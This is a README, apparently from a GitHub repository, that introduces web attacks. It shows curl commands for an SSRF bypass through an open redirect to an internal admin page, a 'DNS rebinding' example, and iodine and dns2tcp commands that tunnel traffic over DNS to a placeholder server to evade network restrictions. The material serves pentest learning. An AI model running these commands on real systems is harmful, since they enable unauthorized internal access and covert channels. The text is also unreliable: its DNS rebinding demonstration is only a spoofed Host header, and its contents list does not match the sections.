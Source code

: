 ```markdown
# Introduction to Web Attacks

This repository offers an extensive exploration of various web attacks, essential for understanding and countering the prevalent threats in today's internet landscape.

## Table of Contents

1. [SSRF Basic Filter Bypasses](#ssrf-basic-filter-bypasses)
2. [DNS Rebinding: SSRF Filter Bypass](#dns-rebinding-ssrf-filter-bypass)
3. [DNS Rebinding: Same-Origin Policy Bypass](#dns-rebinding-same-origin-policy-bypass)
4. [DNS Rebinding: Tools & Prevention](#dns-rebinding-tools--prevention)
5. [More to come...]

## SSRF with Filter Bypass via Open Redirection

Server-Side Request Forgery (SSRF) poses a significant threat to web security. Understanding the basics of basic filter bypass techniques is crucial for effective penetration testing.

### Example Command

```bash
curl -i http://vulnerable-server.local/request?url=http://internal-server.local/
```

![Redirect Example 1](https://i.postimg.cc/2y6jR0LB/redirectnb2.png)
![Redirect Example 2](https://i.postimg.cc/j5qtPMXk/redirect3.png)

### Exploiting the Vulnerability

- Modifying the `stockApi` parameter directly is prevented.
- **Crafting the Exploit URL:**
  - Create a crafted URL to exploit the redirection, such as redirecting to the admin interface:
    ```plaintext
    /product/nextProduct?path=http://192.168.0.12:8080/admin
    ```
- **Using the Exploit URL:**
  - Utilize this URL in the `stockApi` parameter:
    ```bash
    curl -i "http://vulnerable-server.local/product/nextProduct?path=http://192.168.0.12:8080/admin"
    ```
- **Exploiting the Vulnerability:**
  - The stock checker follows the redirection and displays the admin page, enabling actions like user deletion.

These steps illustrate how an open redirection vulnerability can be exploited to bypass SSRF filters and execute unauthorized actions on internal systems.

### DNS Rebinding: Same-Origin Policy Bypass

DNS Rebinding is a technique to bypass the Same-Origin Policy (SOP) in web browsers, allowing attackers to access resources on different domains.

#### Setup for SOP Bypass:
```bash
python -m http.server 8080
```
- **Description:** Utilizes Python's HTTP server module to create a local server for testing CORS vulnerabilities via DNS rebinding.

#### Executing DNS Rebinding Attack:
```bash
curl -H "Host: malicious-website.com" http://target-server.local/resource
```
- **Description:** Demonstrates a DNS rebinding attack, changing IP addresses to trick the target server into fetching resources from a malicious domain.

#### Summary:
DNS Rebinding bypasses SOP protections, enabling unauthorized access to resources on different domains through manipulation of DNS settings and HTTP headers.

### Additional Tools and Commands for DNS Security

To enhance your project, here are succinct overviews of advanced commands for DNS security exploration and tunneling:

- **`nslookup`**:
  ```bash
  nslookup target-domain.com
  ```
  Quickly checks DNS configurations and resolves domain names to IP addresses, critical for identifying potential DNS rebind vulnerabilities.

- **`iodine`**:
  ```bash
  iodine -f -P password -T CNAME tunnel.your-server.com
  ```
  Establishes a DNS tunnel, encapsulating data within DNS requests to bypass network restrictions, using CNAME records for stealth.

- **`dig`**:
  ```bash
  dig +trace +all target-domain.com
  ```
  Provides a detailed trace of DNS resolution path from root servers to the authoritative servers, useful for deep analysis and spotting security gaps.

- **`dns2tcp`**:
  ```bash
  dns2tcp -z secretkey -f configfile.conf
  ```
  Facilitates TCP over DNS, allowing for more sophisticated protocol tunneling under restrictive networks, secured with a custom key and configuration.

These tools contribute deeply to DNS security auditing and advanced network manipulation, providing valuable extras for any DNS-related security enhancement project.

## License

This project is under the MIT License. For more details, please refer to the [LICENSE.md](LICENSE.md) file.

This README provides a comprehensive and accessible guide, serving as an invaluable resource for both novices and seasoned pentesters looking to deepen their understanding of sophisticated network security challenges.
```
